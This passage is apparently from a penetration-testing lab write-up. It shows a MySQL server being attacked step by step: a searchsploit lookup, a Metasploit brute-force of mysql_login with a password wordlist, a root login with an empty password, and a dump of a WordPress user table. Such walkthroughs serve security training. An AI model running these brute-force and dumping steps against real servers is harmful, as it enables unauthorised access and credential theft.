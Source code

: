 - Search for MySQL exploits

```bash
searchsploit MySQL 5.5
# There are only Privilege Escalation exploits
```

- **Brute-force MySQL**

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 10.2.26.45
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```

```bash
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Found remote MySQL version 5.5.20
[!] 10.2.26.45:3306 - No active DB -- Credential data will not be saved!
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Success: 'root:'
```

> 📌 `root` password is empty

```bash
mysql -u root -p -h 10.2.26.45
```

![](.gitbook/assets/image-20230424123437314.png)

```bash
show databases;
use wordpress;
show tables;
select * from wp_users;
```
